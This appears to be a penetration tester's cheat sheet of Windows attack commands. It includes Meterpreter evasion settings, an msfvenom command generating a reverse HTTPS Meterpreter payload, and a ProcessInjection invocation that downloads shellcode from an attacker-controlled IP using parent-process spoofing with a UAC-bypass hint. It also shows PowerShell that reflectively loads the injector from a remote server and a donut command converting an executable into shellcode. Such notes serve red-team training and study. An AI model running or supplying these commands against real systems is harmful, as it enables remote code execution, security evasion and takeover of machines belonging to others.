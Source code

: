 - neo-ConfuserEx for obfuscating binaries
- Meterpreter Tips:
    - **set EnableStageEncoding true; set StageEncoder x64/xor_dynamic**
    - set HandlerSSLCert blah.pem; set StagerVerifySSLCert true 
    - set AUTOLOADSTDAPI false

#### Combination Injector

    https://github.com/3xpl01tc0d3r/ProcessInjection

    //shellcode:
    sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f raw -o /var/www/html/code.bin

    //run:
    //APC Queuing Method w/ PPID Spoofing & D-Invoke:
    \\192.168.49.121\visualstudio\ProcessInjection\ProcessInjection\bin\Release\ProcessInjection.exe /t:4 /f:raw /url:"http://192.168.49.121/code.bin" /ppath:"c:\windows\system32\calc.exe" /m:d /parentproc:"explorer"
    //as admin, pick winlogon, etc. for parentproc for UAC bypass

    //via reflection:
    # Load from the disk
    [System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("ProcessInjection.exe"));

    # Load from a remote server
    [System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData("http://<URL>/ProcessInjection.exe"))

    # Perform process injection
    [ProcessInjection.ProcessInjection]::Main(@("/t:1", "/f:base64", "/pid:<ProcessId>", "/sc:<ShellCode>"))

#### Donut.exe
- Converting a PE into shellcode for injection
- 32bit SC: `donut.exe -a 1 -i \\192.168.49.121\visualstudio\Hollow\HollowUAC\bin\x64\Release\HollowUAC.exe -c Hollow.Program -m Main`

#### **PoolParty**
- https://github.com/SafeBreach-Labs/PoolParty